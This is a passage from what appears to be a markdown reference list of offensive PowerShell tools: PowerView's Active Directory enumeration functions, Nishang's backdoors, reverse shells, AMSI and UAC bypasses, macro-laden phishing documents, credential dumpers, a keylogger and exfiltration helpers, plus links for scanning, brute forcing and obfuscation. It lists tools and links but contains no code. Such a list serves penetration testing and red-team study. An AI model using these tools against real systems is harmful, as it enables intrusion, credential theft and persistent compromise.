         - `Invoke-CheckLocalAdminAccess` - check if the current user context has local administrator access to a specified host
         - `Get-DomainSearcher` - builds a proper ADSI searcher object for a given domain
         - `Get-ObjectAcl` - returns the ACLs associated with a specific active directory object
         - `Add-ObjectAcl` - adds an ACL to a specified active directory object
         - `Get-LastLoggedOn` - return the last logged on user for a target host
         - `Get-CachedRDPConnection` -	queries all saved RDP connection entries on a target host
         - `Invoke-ACLScanner` - enumerate -1000+ modifable ACLs on a specified domain
         - `Get-GUIDMap` - returns a hash table of current GUIDs -> display names
         - `Get-DomainSID` - return the SID for the specified domain
         - `Invoke-ThreadedFunction` - helper that wraps threaded invocation for other 
      - net * Functions:
        - `Get-NetDomain` - gets the name of the current user's domain
        - `Get-NetForest` - gets the forest associated with the current user's domain
        - `Get-NetForestDomain` - gets all domains for the current forest
        - `Get-NetDomainController` - gets the domain controllers for the current computer's domain
        - `Get-NetUser` - returns all user objects, or the user specified (wildcard specifiable)
        - `Add-NetUser` - adds a local or domain user
        - `Get-NetComputer` - gets a list of all current servers in the domain
        - `Get-NetPrinter` - gets an array of all current computers objects in a domain
        - `Get-NetOU` - gets data for domain organization units
        - `Get-NetSite` - gets current sites in a domain
        - `Get-NetSubnet` - gets registered subnets for a domain
        - `Get-NetGroup` - gets a list of all current groups in a domain
        - `Get-NetGroupMember` - gets a list of all current users in a specified domain group
        - `Get-NetLocalGroup` - gets the members of a localgroup on a remote host or hosts
        - `Add-NetGroupUser` - adds a local or domain user to a local or domain group
        - `Get-NetFileServer` - get a list of file servers used by current domain users
        - `Get-DFSshare` - gets a list of all distribute file system shares on a domain
        - `Get-NetShare` - gets share information for a specified server
        - `Get-NetLoggedon` - gets users actively logged onto a specified server
        - `Get-NetSession` - gets active sessions on a specified server
        - `Get-NetRDPSession` - gets active RDP sessions for a specified server (like qwinsta)
        - `Get-NetProcess` - gets the remote processes and owners on a remote server
        - `Get-UserEvent` - returns logon or TGT events from the event log for a specified host
        - `Get-ADObject` - takes a domain SID and returns the user, group, or computer object associated with it
        - `Set-ADObject` - takes a SID, name, or SamAccountName to query for a specified domain object, and then sets a specified 'PropertyName' to a specified 'PropertyValue'
      - GPO functions:
        - `Get-GptTmpl` - parses a GptTmpl.inf to a custom object
        - `Get-NetGPO` - gets all current GPOs for a given domain
        - `Get-NetGPOGroup` - gets all GPOs in a domain that set "Restricted Groups" on on target machines
        - `Find-GPOLocation` - takes a user/group and makes machines they have effective rights over through GPO enumeration and correlation
        - `Find-GPOComputerAdmin` - takes a computer and determines who has admin rights over it through GPO enumeration
        - `Get-DomainPolicy` - returns the default domain or DC policy
      - User-Hunting Functions:
        - `Invoke-UserHunter` - finds machines on the local domain where specified users are logged into, and can optionally check if the current user has local admin access to found machines
        - `Invoke-StealthUserHunter` - finds all file servers utilizes in user HomeDirectories, and checks the sessions one each file server, hunting for particular users
        - `Invoke-ProcessHunter` - hunts for processes with a specific name or owned by a specific user on domain machines
        - `Invoke-UserEventHunter` - hunts for user logon events in domain controller event logs
      - Domain Trust Functions:
        - `Get-NetDomainTrust` - gets all trusts for the current user's domain
        - `Get-NetForestTrust` - gets all trusts for the forest associated with the current user's domain
        - `Find-ForeignUser` - enumerates users who are in groups outside of their principal domain
        - `Find-ForeignGroup` - enumerates all the members of a domain's groups and finds users that are outside of the queried domain
        - `Invoke-MapDomainTrust` - try to build a relational mapping of all domain trusts
      - MetaFunctions:
        - `Invoke-ShareFinder` - finds (non-standard) shares on hosts in the local domain
        - `Invoke-FileFinder` - finds potentially sensitive files on hosts in the local domain
        - `Find-LocalAdminAccess` - finds machines on the domain that the current user has local admin access to
        - `Find-ManagedSecurityGroups` - searches for active directory security groups which are managed and identify users who have write access to those groups (i.e. the ability to add or remove members)
        - `Find-UserField` - searches a user field for a particular term
        - `Find-ComputerField` - searches a computer field for a particular term
        - `Get-ExploitableSystem` - finds systems likely vulnerable to common exploits
        - `Invoke-EnumerateLocalAdmin` - enumerates members of the local Administrators groups across all machines in the domain
- Nishang 
  - [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang) -  framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming
  - ActiveDirectory
    - [Set-DCShadowPermissions](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)Modify AD objects to provide minimal permissions required for DCShadow.
  - Antak - the Webshell
    - [Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)Execute PowerShell scripts in memory, run commands, and download and upload files using this webshell.
  - Backdoors
    - [HTTP-Backdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/HTTP-Backdoor.ps1)A backdoor which can receive instructions from third party websites and execute PowerShell scripts in memory.
    - [DNS_TXT_Pwnage](https://github.com/samratashok/nishang/blob/master/Backdoors/DNS_TXT_Pwnage.ps1)A backdoor which can receive commands and PowerShell scripts from DNS TXT queries, execute them on a target, and be remotely controlled using the queries.
    - [Execute-OnTime](https://github.com/samratashok/nishang/blob/master/Backdoors/Execute-OnTime.ps1)A backdoor which can execute PowerShell scripts at a given time on a target.
    - [Gupt-Backdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Gupt-Backdoor.ps1)A backdoor which can receive commands and scripts from a WLAN SSID without connecting to it.
    - [Add-ScrnSaveBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Add-ScrnSaveBackdoor.ps1)A backdoor which can use Windows screen saver for remote command and script execution.
    - [Invoke-ADSBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Invoke-ADSBackdoor.ps1)A backdoor which can use alternate data streams and Windows Registry to achieve persistence.
    - [Add-RegBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Add-RegBackdoor.ps1)A backdoor which uses well known Debugger trick to execute payload with Sticky keys and Utilman (Windows key + U).
    - [Set-RemoteWMI](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)Modify permissions of DCOM and WMI namespaces to allow access to a non-admin user.
    - [Set-RemotePSRemoting](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemotePSRemoting.ps1)Modify permissions of PowerShell remoting to allow access to a non-admin user.
  - Bypass
    - [Invoke-AmsiBypass](https://github.com/samratashok/nishang/blob/master/Bypass/Invoke-AmsiBypass.ps1)Implementation of publicly known methods to bypass/avoid AMSI.
  - Client
    - [Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)Create infected CHM files which can execute PowerShell commands and scripts.
    - [Out-Word](https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1)Create Word files and infect existing ones to run PowerShell commands and scripts.
    - [Out-Excel](https://github.com/samratashok/nishang/blob/master/Client/Out-Excel.ps1)Create Excel files and infect existing ones to run PowerShell commands and scripts.
    - [Out-HTA](https://github.com/samratashok/nishang/blob/master/Client/Out-HTA.ps1)Create a HTA file which can be deployed on a web server and used in phishing campaigns.
    - [Out-Java](https://github.com/samratashok/nishang/blob/master/Client/Out-Java.ps1)Create signed JAR files which can be used with applets for script and command execution.
    - [Out-Shortcut](https://github.com/samratashok/nishang/blob/master/Client/Out-Shortcut.ps1)Create shortcut files capable of executing PowerShell commands and scripts.
    - [Out-WebQuery](https://github.com/samratashok/nishang/blob/master/Client/Out-WebQuery.ps1)Create IQY files for phishing credentials and SMB hashes.
    - [Out-JS](https://github.com/samratashok/nishang/blob/master/Client/Out-JS.ps1)Create JS files capable of executing PowerShell commands and scripts.
    - [Out-SCT](https://github.com/samratashok/nishang/blob/master/Client/Out-SCT.ps1)Create SCT files capable of executing PowerShell commands and scripts.
    - [Out-SCF](https://github.com/samratashok/nishang/blob/master/Client/Out-SCF.ps1)Create a SCF file which can be used for capturing NTLM hash challenges.
  - Escalation
    - [Enable-DuplicateToken](https://github.com/samratashok/nishang/blob/master/Escalation/Enable-DuplicateToken.ps1)When SYSTEM privileges are required.
    - [Remove-Update](https://github.com/samratashok/nishang/blob/master/Escalation/Remove-Update.ps1)Introduce vulnerabilities by removing patches.
    - [Invoke-PsUACme](https://github.com/samratashok/nishang/blob/master/Escalation/Invoke-PsUACme.ps1)Bypass UAC.
  - Execution
    - [Download-Execute-PS](https://github.com/samratashok/nishang/blob/master/Execution/Download-Execute-PS.ps1)Download and execute a PowerShell script in memory.
    - [Download_Execute](https://github.com/samratashok/nishang/blob/master/Execution/Download_Execute.ps1)Download an executable in text format, convert it to an executable, and execute.
    - [Execute-Command-MSSQL](https://github.com/samratashok/nishang/blob/master/Execution/Execute-Command-MSSQL.ps1)Run PowerShell commands, native commands, or SQL commands on a MSSQL Server with sufficient privileges.
    - [Execute-DNSTXT-Code](https://github.com/samratashok/nishang/blob/master/Execution/Execute-DNSTXT-Code.ps1)Execute shellcode in memory using DNS TXT queries.
    - [Out-RundllCommand](https://github.com/samratashok/nishang/blob/master/Execution/Out-RundllCommand.ps1)Execute PowerShell commands and scripts or a reverse PowerShell session using rundll32.exe.
  - Gather
    - [Check-VM](https://github.com/samratashok/nishang/blob/master/Gather/Check-VM.ps1)Check for a virtual machine.
    - [Copy-VSS](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1)Copy the SAM file using Volume Shadow Copy Service.
    - [Invoke-CredentialsPhish](https://github.com/samratashok/nishang/blob/master/Gather/Credentials.ps1)Trick a user into giving credentials in plain text.
    - [FireBuster](https://github.com/samratashok/nishang/blob/master/Gather/FireBuster.ps1) 
    - [FireListener](https://github.com/samratashok/nishang/blob/master/Gather/FireListener.ps1)A pair of scripts for egress testing
    - [Get-Information](https://github.com/samratashok/nishang/blob/master/Gather/Get-Information.ps1)Get juicy information from a target.
    - [Get-LSASecret](https://github.com/samratashok/nishang/blob/master/Gather/Get-LSASecret.ps1)Get LSA Secret from a target.
    - [Get-PassHashes](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1)Get password hashes from a target.
    - [Get-WLAN-Keys](https://github.com/samratashok/nishang/blob/master/Gather/Get-WLAN-Keys.ps1)Get WLAN keys in plain text from a target.
    - [Keylogger](https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1)Log keystrokes from a target.
    - [Invoke-MimikatzWdigestDowngrade](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1)Dump user passwords in plain on Windows 8.1 and Server 2012
    - [Get-PassHints](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHints.ps1)Get password hints of Windows users from a target.
    - [Show-TargetScreen](https://github.com/samratashok/nishang/blob/master/Gather/Show-TargetScreen.ps1)Connect back and Stream target screen using MJPEG.
    - [Invoke-Mimikatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)Load mimikatz in memory. Updated and with some customisation.
    - [Invoke-Mimikittenz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikittenz.ps1)Extract juicy information from target process (like browsers) memory using regex.
    - [Invoke-SSIDExfil](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-SSIDExfil.ps1)Exfiltrate information like user credentials, using WLAN SSID.
    - [Invoke-SessionGopher](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-SessionGopher.ps1)Identify admin jump-boxes and/or computers used to access Unix machines.
      - Extract information from Putty and RDP (ppk, rdp, stdid)
      - Decrypt passwords for WinSCP from registry 
      - "Admin" required for remote operations  
      - "-ExcludeDc" to prevent detection
  - MITM
    - [Invoke-Interceptor](https://github.com/samratashok/nishang/blob/master/MITM/Invoke-Interceptor.ps1)A local HTTPS proxy for MITM attacks.
  - Pivot
    - [Create-MultipleSessions](https://github.com/samratashok/nishang/blob/master/Pivot/Create-MultipleSessions.ps1)Check credentials on multiple computers and create PSSessions.
    - [Run-EXEonRemote](https://github.com/samratashok/nishang/blob/master/Pivot/Run-EXEonRemote.ps1) Copy and execute an executable on multiple machines.
    - [Invoke-NetworkRelay](https://github.com/samratashok/nishang/blob/master/Pivot/Invoke-NetworkRelay.ps1) Create network relays between computers.
  - Prasadhak
    - [Prasadhak](https://github.com/samratashok/nishang/blob/master/Prasadhak/Prasadhak.ps1)Check running hashes of running process against the VirusTotal database.
  - Scan
    - [Brute-Force](https://github.com/samratashok/nishang/blob/master/Scan/Brute-Force.ps1)Brute force FTP, Active Directory, MSSQL, and Sharepoint.
    - [Port-Scan](https://github.com/samratashok/nishang/blob/master/Scan/Port-Scan.ps1)A handy port scanner.
    - Powerpreter
    - [Powerpreter](https://github.com/samratashok/nishang/tree/master/powerpreter)All the functionality of nishang in a single script module.
  - Shells
    - [Invoke-PsGcat](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PsGcat.ps1)Send commands and scripts to specifed Gmail account to be executed by Invoke-PsGcatAgent
    - [Invoke-PsGcatAgent](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PsGcatAgent.ps1)Execute commands and scripts sent by Invoke-PsGcat.
    - [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)An interactive PowerShell reverse connect or bind shell
    - [Invoke-PowerShellTcpOneLine](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)Stripped down version of Invoke-PowerShellTcp. Also contains, a skeleton version which could fit in two tweets.
    - [Invoke-PowerShellTcpOneLineBind](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLineBind.ps1)Bind version of Invoke-PowerShellTcpOneLine.
    - [Invoke-PowerShellUdp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdp.ps1)An interactive PowerShell reverse connect or bind shell over UDP
    - [Invoke-PowerShellUdpOneLine](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdpOneLine.ps1)Stripped down version of Invoke-PowerShellUdp.
    - [Invoke-PoshRatHttps](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PoshRatHttps.ps1)Reverse interactive PowerShell over HTTPS.
    - [Invoke-PoshRatHttp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PoshRatHttp.ps1)Reverse interactive PowerShell over HTTP.
    - [Remove-PoshRat](https://github.com/samratashok/nishang/blob/master/Shells/Remove-PoshRat.ps1)Clean the system after using Invoke-PoshRatHttps
    - [Invoke-PowerShellWmi](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellWmi.ps1)Interactive PowerShell using WMI.
    - [Invoke-PowerShellIcmp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1)An interactive PowerShell reverse shell over ICMP.
    - [Invoke-JSRatRundll](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-JSRatRundll.ps1)An interactive PowerShell reverse shell over HTTP using rundll32.exe.
    - [Invoke-JSRatRegsvr](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-JSRatRegsvr.ps1)An interactive PowerShell reverse shell over HTTP using regsvr32.exe.
  - Utility
    - [Add-Exfiltration](https://github.com/samratashok/nishang/blob/master/Utility/Add-Exfiltration.ps1)Add data exfiltration capability to Gmail, Pastebin, a web server, and DNS to any script.
    - [Add-Persistence](https://github.com/samratashok/nishang/blob/master/Utility/Add-Persistence.ps1)Add reboot persistence capability to a script.
    - [Remove-Persistence](https://github.com/samratashok/nishang/blob/master/Utility/Remove-Persistence.ps1)Remote persistence added by the Add-Persistence script.
    - [Do-Exfiltration](https://github.com/samratashok/nishang/blob/master/Utility/Do-Exfiltration.ps1)Pipe (|) this to any script to exfiltrate the output.
    - [Download](https://github.com/samratashok/nishang/blob/master/Utility/Download.ps1)Transfer a file to the target.
    - [Parse_Keys](https://github.com/samratashok/nishang/blob/master/Utility/Parse_Keys.ps1)Parse keys logged by the keylogger.
    - [Invoke-Encode](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Decode.ps1)Encode and compress a script or string.
    - [Invoke-Decode](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Decode.ps1)Decode and decompress a script or string from Invoke-Encode.
    - [Start-CaptureServer](https://github.com/samratashok/nishang/blob/master/Utility/Start-CaptureServer.ps1)Run a web server which logs Basic authentication and SMB hashes.
    - [ConvertTo-ROT13](https://github.com/samratashok/nishang/blob/master/Utility/ConvertTo-ROT13.ps1)Encode a string to ROT13 or decode a ROT13 string.
    - [Out-DnsTxt](https://github.com/samratashok/nishang/blob/master/Utility/Out-DnsTxt.ps1)Generate DNS TXT records which could be used with other scripts.
- External Services 
  - Shodan: <https://github.com/darkoperator/Posh-Shodan>
- Scaning
  - <https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1>
  - <https://github.com/samratashok/nishang/blob/master/Scan/Invoke-PortScan.ps1>
  -  Parse Nmap Reports: <https://github.com/SamuelArnold/StarKill3r/blob/master/Star%20Killer/Star%20Killer/bin/Debug/Scripts/SANS-SEC505-master/scripts/Day1-PowerShell/Parse-Nmap.ps1>
  - Paser Nessus Reports: <https://github.com/darkoperator/Posh-NVS>
  - Scandiff is a PowerShell script to automate host discovery and scanning with nmap: <https://github.com/hardwaterhacker/scandiff>
- Brute Forcing
  - Active Directory brute forcing: <https://github.com/samratashok/nishang/blob/master/Scan/Invoke-BruteForce.ps1>
  - Get-WinRMPassword - <https://poshsecurity.com/blog/2014/3/20/powershell-winrm-get-winrmpassword.html>
  - Get-WimPassword
- Database Attacks
  - PowerUpSQL - Toolkit for Attacking SQL Server: <https://github.com/NetSPI/PowerUpSQL>
  - Execute command over MSSQL: Nishang/Execute-Command-MSSQL.ps1
- Capture NTLM
  - <https://github.com/Kevin-Robertson/Inveigh>
- Obfuscation
  - <https://github.com/danielbohannon/Invoke-Obfuscation>
  - <https://github.com/danielbohannon/Invoke-DOSfuscation>
- Fileless Malware
  - Invoke-NoShell outputs a Microsoft Office Word .doc file with an embedded macro: <https://github.com/G4lB1t/Invoke-NoShell>

## Resources

### New References
- PowerShell Basics for Security Professionals Part 1: <https://www.youtube.com/watch?v=B0EsL1j_-qw>
- Constrained Mode: <https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/>
- <https://github.com/subTee/CVE-2014-4113/blob/master/Invoke-SystemShell.ps1>
- <http://www.labofapenetrationtester.com/2014/12/using-nishang-with-cobalt-strike.html>
- <http://blog.cobaltstrike.com/2014/09/23/cobalt-strike-2-1-i-have-the-powershell/>

### Development Environment
- How To Make Visual Studio Code Look And Behave Like The PowerShell ISE: <https://blog.techsnips.io/how-to-make-visual-studio-code-look-and-behave-like-the-powershell-ise/>

